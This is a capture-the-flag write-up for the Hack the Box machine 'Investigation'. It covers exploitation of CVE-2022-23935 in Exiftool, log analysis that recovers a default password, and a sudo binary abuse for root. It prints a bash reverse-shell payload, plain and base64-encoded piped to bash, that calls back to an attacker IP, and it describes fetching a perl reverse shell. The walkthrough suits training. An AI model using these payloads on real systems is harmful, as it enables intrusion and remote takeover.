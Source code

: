 # Hack the Box - Investigation

```CSS
Machine IP: 10.10.11.197 - Linux
```
- Home Page
![image](https://user-images.githubusercontent.com/83878909/229590867-b6247863-847c-4542-9262-8b49d68df091.png)
- Service Page (File Upload)
![image](https://user-images.githubusercontent.com/83878909/229591086-ae649d64-42c7-4d06-b226-766ab832b99b.png)
- Analysed Image Report
![image](https://user-images.githubusercontent.com/83878909/229594569-1b66a61c-ca06-46af-ab8a-74fc5013a9e5.png)

## Exiftool
- Version 12.97 is vulnerable to [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429).

## Exploit
  - Testing the exploit using ping. Ping the attacker machine and capture ICMP packets if the ping is received.
![image](https://user-images.githubusercontent.com/83878909/229599022-e4a6e61a-e57b-443f-867f-d6c083766361.png)
  - Ping received.
![image](https://user-images.githubusercontent.com/83878909/229599327-3589ec39-e31f-4c38-a8c5-20ebf6b5f5dc.png)

- Sending the payload in base64 format and decrypting it on the victim machine.
  - Payload: `/bin/bash -i >& /dev/tcp/10.10.14.34/9001 0>&1`=`echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM0LzkwMDEgMD4mMQ==' | base64 -d | bash |`
![image](https://user-images.githubusercontent.com/83878909/229601047-d8811696-5f5d-482a-a8bc-f421c49b9d36.png)
  - Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/229601230-9c508f23-7f61-4b3b-a0df-42521867ac4c.png)

---

- Found `.msg` file in `/usr/local/investigation`.
  - Transfer the file to attacker machine.
![image](https://user-images.githubusercontent.com/83878909/229604774-0211e995-a22b-4a49-ab70-77968c74c204.png)
  - Receive File - renamed to `analysis.msg`
![image](https://user-images.githubusercontent.com/83878909/229604983-c4243c4e-900b-452d-a88f-20bc83f39555.png)
  - Access the file using an online tool `https://products.aspose.app/`.
![image](https://user-images.githubusercontent.com/83878909/229606099-e31e6d5e-d398-4441-9163-6c8327539e46.png)
  - Download the `zip` file using an online tool `https://www.encryptomatic.com/viewer/`.
![image](https://user-images.githubusercontent.com/83878909/229606850-9d9590fa-ea22-4650-82e9-7ec1a48e82b0.png)
  - Found `security.evtx` after unzipping the file.
  - Use the `evtx-converter.py` script to create a readable `xml` file.
  - Found default password `Def@ultf0r3nz!csPa$$`.

- Login in using ssh as user `smorton` and default password.
![image](https://user-images.githubusercontent.com/83878909/229616049-794f5fac-1c4d-4e89-92e0-49bd3378811c.png)

---

## Privilege Escalation
![image](https://user-images.githubusercontent.com/83878909/229624643-527e1175-b0d0-4149-bfa4-1de00200d6c7.png)

- Download and decompile the binary to understand the code using an [online tool](https://dogbolt.org/).
![image](https://user-images.githubusercontent.com/83878909/229627097-ece4b7ee-b522-4397-8e58-16b308053eeb.png)

- Firstly, it checks whether three input parameters have been sent through (actually two because the first parameter is the program name itself) and exits if not.
- Secondly, it checks whether a root user calls it (achievable because we can run it as root without a password) and exits if not.
- Thirdly, it checks whether the third parameter is equal to the string lDnxUysaQn, and exits if not.
- Fourthly, it opens a file with curl which is specified by the second parameter and reads and runs with perl.

- Test the binary
![image](https://user-images.githubusercontent.com/83878909/229627815-4a931de0-64ad-452c-9061-77bcd6787e23.png)
![image](https://user-images.githubusercontent.com/83878909/229627933-dc0a5dfd-e88a-4724-b613-6baa03435f8b.png)

- Host a pearl reverse shell on the attacker machine and start a netcat listener.
- Fetch the file using the binary from the attacker machine and execute it.

![image](https://user-images.githubusercontent.com/83878909/229633820-da8eabfd-82f4-4945-8342-3db0a0cfd813.png)





